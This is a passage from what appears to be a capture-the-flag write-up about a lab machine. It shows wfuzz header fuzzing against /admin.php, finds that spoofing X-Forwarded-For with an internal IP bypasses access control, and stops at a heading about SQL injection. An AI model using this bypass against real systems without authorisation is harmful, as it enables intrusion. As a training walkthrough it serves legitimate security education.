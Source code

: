 ```
Requests/sec.: 362.3140

```

Then I saw the hint in the source and ran it again with the value of the given IP:

```

root@kali# wfuzz -c -w headers -u http://10.10.10.167/admin.php -H "FUZZ: 192.168.4.28" --hh 89
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.167/admin.php
Total requests: 97

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000027:   400        6 L      34 W     374 Ch      "Content-Length"
000000083:   501        6 L      26 W     343 Ch      "Transfer-Encoding"
000000093:   200        153 L    466 W    7933 Ch     "X-Forwarded-For"

Total time: 0.221581
Processed Requests: 97
Filtered Requests: 94
Requests/sec.: 437.7627

```

That HTTP 200 on “X-Forwarded-For” that returns 7933 characters is certainly interesting. I downloaded a Firefox plugin called [Modify Header Value](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/) (I didn’t have something that did this before, and this one was ok, but if you have a better tool, leave a comment), and set it to add a “X-Forwarded-For” header for Control:

![image-20191125051752781](https://0xdfimages.gitlab.io/img/image-20191125051752781.png)

Now I refreshed `/admin.php`, and got a page.

#### /admin.php

Now `/admin.php` gives a dashboard for inventory management:

![image-20191125051901852](https://0xdfimages.gitlab.io/img/image-20191125051901852.png)

I made sure I had FoxyProxy sending my traffic through Burp, and I played for a few minutes on this page, generating HTTP requests to a handful of different PHP scripts:

![image-20191125052204313](https://0xdfimages.gitlab.io/img/image-20191125052204313.png)

### SQLI
